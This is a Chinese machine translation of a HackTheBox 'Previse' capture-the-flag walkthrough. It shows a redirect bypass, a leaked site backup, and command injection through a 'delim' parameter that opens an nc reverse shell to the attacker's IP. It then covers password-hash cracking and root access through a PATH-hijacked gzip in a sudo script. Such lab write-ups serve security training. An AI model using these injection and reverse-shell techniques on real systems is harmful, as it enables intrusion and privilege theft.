# 从黑客盒子预览-详细演练

> 原文：<https://infosecwriteups.com/previse-from-hackthebox-detailed-walkthrough-97ece9bba884?source=collection_archive---------1----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息



来自黑客盒子的预览

Previse 在 HackTheBox 上被评为简易机。初步扫描显示只有两个开放的端口。我们从 80 端口看网站开始，通过枚举找到隐藏文件。我们通过更改响应代码来访问帐户创建页面，然后使用新获得的访问权限下载备份文件。代码审查揭示了网站中的一个漏洞，我们通过篡改参数来获得反向外壳。从 MySQL 转储的凭证被破解，并被用来作为用户登录。然后利用脚本中未加引号的路径获得根外壳。

所需的技能是网络和操作系统枚举。学到的技能是改变响应代码和参数篡改。

[](https://www.hackthebox.com/home/machines/profile/373) [## 破解盒子::渗透测试实验室— Previse

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/373) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



Nmap 扫描

目前，我们从 nmap 扫描中得到的只是一个端口 80 上的网站:



预览文件存储

# 文件发现

这是一个简单的静态登录页面。源代码中没有什么有趣的东西，feroxbuster 的时间到了:



对 php 文件进行 Feroxbuster 扫描

我们已经找到了一些 php 文件。翻看那些有 200 个响应代码的，只有 nav.php 是有趣的:



nav.php 文件的内容

# 更改响应代码

所有链接都将我们重定向到登录页面，但如果我们单击创建帐户链接并使用 Burp 拦截，则设置为拦截响应:



打嗝拦截创建帐户响应

现在，当我们单击 forward 发送 get 请求时，我们捕获到以下响应:

```
HTTP/1.1 302 Found
Date: Wed, 29 Sep 2021 20:08:28 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 3994
Connection: close
Content-Type: text/html; charset=UTF-8
```

这里描述了 302 发现响应:

```
The HyperText Transfer Protocol (HTTP) 302 Found redirect status
response code indicates that the resource requested has been
temporarily moved to the URL given by the Location header.
```

因此，我们将被重定向到 login.php，但我们可以将响应代码改为 200 OK:

```
HTTP/1.1 200 OK
Date: Wed, 29 Sep 2021 20:08:28 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 3994
Connection: close
Content-Type: text/html; charset=UTF-8
```

现在，当我们以打嗝方式发送响应时，我们可以切换回浏览器查看 accounts.php 页面:



绕过 302 重定向登录

# 帐户创建

我们可以创建一个帐户，然后登录，这将使我们转到这里:



登录到管理页面

点击我找到了文件页面:



管理区的文件部分

# 备份文件

下载备份文件并提取内容可以从网站上获取所有文件:

```
┌──(root💀kali)-[~/htb/previse]
└─# unzip siteBackup.zip 
Archive:  siteBackup.zip
  inflating: accounts.php            
  inflating: config.php              
  inflating: download.php            
  inflating: file_logs.php           
  inflating: files.php               
  inflating: footer.php              
  inflating: header.php              
  inflating: index.php               
  inflating: login.php               
  inflating: logout.php              
  inflating: logs.php                
  inflating: nav.php                 
  inflating: status.php
```

我的目光被 config.php 的文件吸引住了，这里面包含着凭据:

```
┌──(root💀kali)-[~/htb/previse]
└─# cat config.php 
<?php
function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = '<HIDDEN>';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}
?>
```

日志文件也很有趣:



logs.php 文件的内容

我们可以看到，该脚本使用 exec 函数调用 python，然后 python 执行一个 python 脚本，并从用户那里获取参数 delim。我们可以从命令行对此进行测试:



测试 logs.php 文件的参数

# 参数篡改

我们可以看到这是可行的，我得到了逗号分隔的列表。我们可以滥用这种消毒输入的缺乏来获得一个反向外壳。在另一个终端中启动 netcat 侦听，然后使用 URL 编码的简单反向 shell:

```
┌──(root💀kali)-[~/htb/previse]
└─# curl -v --cookie "PHPSESSID=1ovoh21p24c94mggubgc3j16dn" -d delim=comma%26nc+-e+/bin/sh+10.10.14.214+1337 http://previse.htb/logs.php 
*   Trying 10.10.11.104:80...
* Connected to previse.htb (10.10.11.104) port 80 (#0)
> POST /logs.php HTTP/1.1
> Host: previse.htb
> User-Agent: curl/7.74.0
> Accept: */*
> Cookie: PHPSESSID=1ovoh21p24c94mggubgc3j16dn
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 out of 45 bytes
```

切换到我们等待的 netcat 监听器，我们看到我们已经连接了我们的 shell:

```
┌──(root💀kali)-[~/htb/previse]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.104] 48260
```

我们先升级到更好的外壳:

```
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$
```

# MySQL 枚举

我们仅作为低权限用户进行连接，但之前我们发现了 mysql 凭据，因此我们可以查看数据库:



枚举 MySQL 以转储密码哈希

# 哈希破解

我们有用户和密码散列。第一个名为 m4l 的用户之前在网站上被视为创建者，让我们获取该散列，看看我们能否破解它:

```
┌──(root💀kali)-[~/htb/previse]
└─# echo "\$1\$🧂llol<HIDDEN>" > hash.txt
```

使用[这个](https://vk9-sec.com/cracking-password-john-the-ripper/)站点来识别哈希类型，即 md5:

```
┌──(root💀kali)-[~/htb/previse]
└─# john hash.txt -format=md5crypt-long -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN> (?)
1g 0:00:06:16 DONE (2021-09-29 22:17) 0.002653g/s 19671p/s 19671c/s 19671C/s ilovecodydean..ilovecody..
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

# 用户标志

现在我们有了可以通过 SSH 登录的凭证:

```
┌──(root💀kali)-[~/htb/previse]
└─# ssh m4lwhere@previse.htb                        
The authenticity of host 'previse.htb (10.10.11.104)' can't be established.
ECDSA key fingerprint is SHA256:rr7ooHUgwdLomHhLfZXMaTHltfiWVR7FJAe2R7Yp5LQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'previse.htb,10.10.11.104' (ECDSA) to the list of known hosts.
m4lwhere@previse.htb's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
Last login: Wed Sep 29 18:53:44 2021 from 10.10.14.191
m4lwhere@previse:~$
```

让我们抓住用户标志:

```
m4lwhere@previse:~$ cat user.txt
<HIDDEN>
```

# 权限提升

我首先检查的是 sudo 权限:

```
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
```

毫不奇怪，我们找到了升级路径。看着剧本:

```
# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

我们看到它只是压缩日志，但是没有 gzip 可执行文件的路径，所以我们可以创建自己的 gzip 文件并使用它:



利用路径错误配置创建我们自己的 gzip

在这里，我们刚刚在当前文件夹中创建了一个名为 gzip 的文件，其中有一个反向 shell。然后我使它可执行，并将当前文件夹添加到系统路径中。

# 根标志

现在，我们可以以 root 用户身份运行备份脚本，另一个 netcat 在另一个终端中等待:

```
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

切换时，我们看到我们的 shell 以 root 用户身份连接:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.104] 55386
root@previse:~# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

我们可以抓住根标志:

```
root@previse:~# cat /root/root.txt
cat /root/root.txt
<HIDDEN>
```

这是另一个完成的盒子。我希望你喜欢这个非常简单的。下次见。

如果你喜欢这篇文章，请给我一两个掌声。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2021 年 12 月 21 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-previse)*。*